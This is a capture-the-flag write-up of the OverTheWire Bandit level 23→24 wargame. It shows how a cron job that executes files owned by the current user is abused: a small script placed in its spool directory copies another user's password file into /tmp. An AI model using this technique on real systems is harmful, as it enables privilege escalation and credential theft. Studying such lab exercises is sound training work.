




# Bandit — Level 23 → 24

**Category:** OverTheWire / Bandit  
**Difficulty:** Hard  
**Date:** 2026-08-13  
**Level page:** [bandit23.html](https://overthewire.org/wargames/bandit/bandit23.html)

## Goal

Another cron job, this time running as `bandit24`. It executes any script it finds in `/var/spool/bandit24/foo/` — but only if the script is owned by `bandit23` — then deletes it.

    ssh bandit23@bandit.labs.overthewire.org -p 2220

## Solution

Read the cron entry and its script:

    $ cat /etc/cron.d/cronjob_bandit24
    @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    $ cat /usr/bin/cronjob_bandit24.sh
    #!/bin/bash
    shopt -s nullglob
    myname=$(whoami)
    cd /var/spool/"$myname"/foo || exit
    echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
    for i in * .*;
    do
        if [ "$i" != "." ] && [ "$i" != ".." ];
        then
            echo "Handling $i"
            owner="$(stat --format "%U" "./$i")"
            if [ "${owner}" = "bandit23" ] && [ -f "$i" ]; then
                timeout -s 9 60 "./$i"
            fi
            rm -rf "./$i"
        fi
    done

The script runs as `bandit24`, and it will execute — with a 60-second timeout — any file in `/var/spool/bandit24/foo/` that's owned by `bandit23`, then delete it regardless. Since I was already `bandit23`, any script I dropped there and made executable would run as `bandit24`.

Wrote a small script to copy `bandit24`'s password somewhere readable:

    $ mkdir -p /tmp/bandit23
    $ cd /tmp/bandit23
    $ nano getpass.sh

    #!/bin/bash
    cat /etc/bandit_pass/bandit24 > /tmp/bandit24_password

Made it executable and dropped it into the cron job's target directory:

    $ chmod +x getpass.sh
    $ cp getpass.sh /var/spool/bandit24/foo/

Within a minute, cron picked it up, ran it as `bandit24`, and the password landed in `/tmp/bandit24_password`:

    $ cat /tmp/bandit24_password
    [REDACTED]

## Result

    Password for bandit24: [REDACTED]

## Key Takeaway

A cron job that runs arbitrary files it finds — even with an ownership check — is a privilege escalation path if you're the allowed owner: it doesn't matter that the file only exists briefly before deletion, since the script runs as the cron job's user (`bandit24`) in that window, not as whoever dropped it there.
